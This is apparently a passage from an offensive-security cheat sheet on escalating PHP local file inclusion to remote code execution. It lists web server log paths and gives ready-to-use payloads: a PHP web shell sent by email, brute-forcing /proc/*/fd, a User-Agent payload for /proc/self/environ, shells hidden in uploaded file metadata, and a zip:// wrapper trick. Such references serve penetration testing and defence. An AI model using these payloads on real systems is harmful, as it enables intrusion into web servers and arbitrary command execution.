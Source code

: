 ```python
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```

Fuzzing wordlist: [https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

### Via Email

**Send a mail** to a internal account (user@localhost) containing your PHP payload like `<?php echo system($_REQUEST["cmd"]); ?>` and try to include to the mail of the user with a path like **`/var/mail/<USERNAME>`** or **`/var/spool/mail/<USERNAME>`**

### Via /proc/\*/fd/\*

1. Upload a lot of shells (for example : 100)
2. Include [http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD), with $PID = PID of the process (can be brute forced) and $FD the file descriptor (can be brute forced too)

### Via /proc/self/environ

Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

### Via upload

If you can upload a file, just inject the shell payload in it (e.g : `<?php system($_GET['c']); ?>` ).

```
http://example.com/index.php?page=path/to/uploaded/file.png
```

In order to keep the file readable it is best to inject into the metadata of the pictures/doc/pdf

### Via Zip fie upload

Upload a ZIP file containing a PHP shell compressed and access:

```python
example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php
```
